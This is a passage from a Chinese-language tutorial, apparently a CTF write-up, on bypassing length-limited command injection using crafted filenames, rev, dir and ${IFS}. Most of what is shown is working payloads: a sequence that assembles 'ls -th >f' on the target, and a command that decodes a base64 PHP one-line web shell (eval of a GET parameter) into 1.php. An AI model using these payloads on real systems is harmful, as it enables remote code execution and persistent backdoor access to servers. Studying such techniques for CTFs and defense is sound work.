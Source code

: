 8）联合知识点⑦，通过rev来倒置输出内容

```bash
>rev
echo 1234 > v
*v    （等同于命令：rev v）
```

9）通过增加ls的-h（把文件大小显示成1k 1M 等形式）参数来让调整-t（根据时间排序）参数的位置



我们之后需要用到rev 倒置输出,所以需要列出这样形式的文件名

```bash
0>  t-  sl

####
>0\>
>t-
>sl
```

![0rsABV.png](https://s1.ax1x.com/2020/10/09/0rsABV.png)

10）用dir来代替ls不换行输出

先看下ls的效果，写到a时每个文件名都是单独一行，这样会影响知识点⑥的命令执行

![0rs3B6.png](https://s1.ax1x.com/2020/10/09/0rs3B6.png)

看下dir的效果，会不换行输出到文件中去

![0rsR3j.png](https://s1.ax1x.com/2020/10/09/0rsR3j.png)

11）使用${IFS}来代替空格

**正式开始**

首先我把下面这段代码写入到主机的0文件中去，然后后期再传入攻击payload时。通过sh执行0文件即可生成f文件，然后再让sh 去执行f文件的代码内容即可得到一句话木马

```shell
ls  -th  >f
```

所以payload如下

```bash
>dir
>f\>
>ht-
>sl
*>v    (等同于命令：dir "f>" "ht-" "sl" > v)
>rev
*v>0   (等同于命令：rev v > 0)(0里面的内容为:ls -th >f)
```

接下来我们需要把 这段代码上传到主机,其中的内容为（<?php eval($_GET[1]);）base64编码后的内容

```bash
echo PD9waHAgZXZhbCgkX0dFVFsxXSk7|base64 -d>1.php
```
